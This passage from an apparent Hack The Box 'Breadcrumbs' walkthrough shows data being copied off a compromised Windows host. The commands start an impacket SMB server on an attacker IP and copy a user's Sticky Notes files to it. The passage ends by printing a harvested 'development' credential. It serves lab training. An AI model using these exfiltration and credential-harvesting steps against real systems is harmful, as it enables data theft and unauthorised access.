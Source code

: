 We found a directory!
```
C:\users\juliette\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\
```
It contains more folders, the \LocalState\ seems interesting!

<img alt="test" src="/assets/img/htb-breadcrumbs/state.png">

Let's copy these files to our machine!
Fist we start our smbserver

```
python3 /usr/share/doc/python3-impacket/examples/smbserver.py -ip 10.10.14.6 -smb2support euch .
```
and copy these files!

```
copy * \\10.10.14.6\euch
```
<img alt="test" src="/assets/img/htb-breadcrumbs/smb.png">

Let's check the files! the only interesting file we need is `plum.sqlite-wal`

It contains  the creds for the development user
```
\id=fc0d8d70-055d-4870-a5de-d76943a68ea2 development: fN3)sN5Ee@g

```
